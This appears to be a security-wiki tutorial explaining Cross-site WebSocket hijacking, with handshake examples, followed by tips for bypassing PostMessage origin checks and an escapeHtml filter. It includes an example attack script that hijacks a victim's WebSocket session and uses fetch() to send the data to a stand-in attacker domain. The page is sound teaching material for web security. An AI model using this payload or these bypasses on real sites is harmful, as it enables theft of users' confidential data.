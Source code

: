 # Cross-site WebSocket hijacking \(CSWSH\)

Most of the information of this page is from **Portswiggers WebSockets tutorials \(main page:** [**https://portswigger.net/web-security/websockets\#intercepting-and-modifying-websocket-messages**](https://portswigger.net/web-security/websockets#intercepting-and-modifying-websocket-messages)**\)**

## What are WebSockets

WebSocket connections are initiated over **HTTP** and are typically **long-lived**. Messages can be sent in **either direction at any time** and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a message.  
WebSockets are particularly useful in situations where **low-latency or server-initiated messages** are required, such as real-time feeds of financial data.

## How are WebSocket connections established?

WebSocket connections are normally created using client-side JavaScript like the following:

```javascript
var ws = new WebSocket("wss://normal-website.com/chat");
```

The **`wss`** protocol establishes a WebSocket over an encrypted **TLS** connection, while the **`ws`** protocol uses an **unencrypted** connection.

To establish the connection, the browser and server perform a WebSocket handshake over HTTP. The browser issues a WebSocket handshake request like the following:

```javascript
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

If the server accepts the connection, it returns a WebSocket handshake response like the following:

```javascript
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

At this point, the network connection remains open and can be used to send WebSocket messages in either direction.

**Note**

Several **features** of the WebSocket **handshake** messages are worth noting:

* The **`Connection`** and **`Upgrade`** headers in the request and response **indicate** that this is a **WebSocket handshake**.
* The **`Sec-WebSocket-Version`** request header specifies the **WebSocket protocol version** that the client wishes to use. This is typically `13`.
* The **`Sec-WebSocket-Key`** request header contains a Base64-encoded **random value**, which should be randomly generated in each handshake request.
* The **`Sec-WebSocket-Accept`** response header contains a hash of the value submitted in the `Sec-WebSocket-Key` request header, concatenated with a specific string defined in the protocol specification. This is done to prevent misleading responses resulting from misconfigured servers or caching proxies.

The **`Sec-WebSocket-Key`** header contains a **random value** to prevent errors from caching proxies, and **is not used for authentication or session handling purposes** \(_It's not a CSRF token_\).

## Cross-site WebSocket hijacking \(CSWSH\)

Also known as _cross-origin WebSocket hijacking_.  
**It is a** [**Cross-Site Request Forgery \(CSRF\)**](csrf-cross-site-request-forgery.md) **on a WebSocket handshake.**

It arises when the **WebSocket handshake** request relies solely on **HTTP cookies** for session handling and does **not contain any CSRF tokens** or other unpredictable values.  
An attacker can create a **malicious web page** on their own domain which **establishes a cross-site WebSocket** connection to the vulnerable application. The application will handle the connection in the **context of the victim user's session** with the application.

Example of the attack:

```javascript
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
  //Exfiltrate the confidential information to attackers server
  fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```

## Other vulnerabilities

As Web Sockets are a mechanism to **send data to server side and client side**, depending on how the server and client handles the information, **Web Sockets can be used to exploit several other vulnerabilities**:

![](../.gitbook/assets/image%20%28129%29.png)

## Tips/Bypasses in PostMessage vulnerabilities

Copied from [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage_2.html)

* If `indexOf()` is used to check the origin of the PostMessage event, remember that it can be bypassed if the origin is contained in the string as seen in [_The Bypass_](https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage_2.html#bypass)
* [@filedescriptor](https://twitter.com/filedescriptor): Using `search()` to validate the origin could be insecure. According to the docs of `String.prototype.search()`, the method takes a regular repression object instead of a string. If anything other than regexp is passed, it will get implicitly converted into a regexp.

```text
"https://www.safedomain.com".search(t.origin)
```

In regular expression, a dot \(.\) is treated as a wildcard. In other words, any character of the origin can be replaced with a dot. An attacker can take advantage of it and use a special domain instead of the official one to bypass the validation, such as **www.s.afedomain.com**.

* [@bored-engineer](https://bored.engineer/): If `escapeHtml` function is used, the function does not create a `new` escaped object, instead it over-writes properties of the existing object. This means that if we are able to create an object with a controlled property that does not respond to `hasOwnProperty` it will not be escaped.

```text
// Expected to fail:
result = u({
  message: "'\"<b>\\"
});
result.message // "&#39;&quot;&lt;b&gt;\"
// Bypassed:
result = u(new Error("'\"<b>\\"));
result.message; // "'"<b>\"
```

`File` object is perfect for this exploit as it has a read-only `name` property which is used by our template and will bypass `escapeHtml` function.  


